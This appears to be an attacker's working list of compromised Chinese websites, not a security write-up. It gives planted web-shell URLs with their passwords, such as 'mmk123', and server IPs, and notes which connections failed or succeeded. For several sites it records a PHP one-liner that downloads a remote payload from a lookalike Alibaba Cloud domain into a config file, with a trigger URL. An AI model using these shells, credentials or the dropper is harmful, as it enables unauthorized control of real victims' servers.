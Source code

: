 http://www.gslyzm.cn/static/upload/image/20230412/13.php |mmk123 |rsa | 211.149.226.215  连接失败

https://www.cangpaige.com/static/upload/image/20220406/m22.php |mmk123 |  47.97.90.35
代码更新：0608 ✅
https://www.cangpaige.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.cangpaige.com/config/httpd.php?d=up

http://haoshen.860318.cn/static/upload/image/20240131/m22.php |mmk123 |  182.92.203.39
代码更新：0608   该网页无法正常运作
http://haoshen.860318.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://haoshen.860318.cn/config/httpd.php?d=up

https://iot.xinbenkj.com/dd.php |dd |big | 106.55.241.55 连接失败

http://aixuyang.com/static/upload/image/20240301/m22.php |mmk123 |  156.247.13.175
代码更新：0608 ✅
http://aixuyang.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://aixuyang.com/config/httpd.php?d=up

http://e.himin.com/static/upload/image/20220729/m22.php |mmk123 |  120.27.14.20


https://www.huaeda.com/template/default/images/m22.php |mmk123 |  121.42.118.20
代码更新：0608 ✅
https://www.huaeda.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.huaeda.com/config/httpd.php?d=up

https://www.gearbox-world.com/static/upload/image/20231024/m22.php |mmk123 |  150.109.70.87


http://www.sdpadq.com/static/upload/other/20231102/m22.php |mmk123 |  139.129.242.175 
http://xl.dzpc.net/template/default/wap/comm/m22.php |mmk123 |  47.96.84.204

http://www.tjclchem.com/static/upload/image/20221118/m22.php |mmk123 |  211.149.225.63
代码更新：0608  失败 500
http://www.tjclchem.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.tjclchem.com/config/httpd.php?d=up

http://www.xym08.com/dd.php |大马 |大马 | 124.223.225.9
http://1.iottry.com/dd.php |大马 |大马 | 101.200.91.63

http://wxnccl.com/static/upload/image/20231117/m22.php |mmk123 |  121.40.99.41
代码更新：0608 ✅
http://wxnccl.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://wxnccl.com/config/httpd.php?d=up

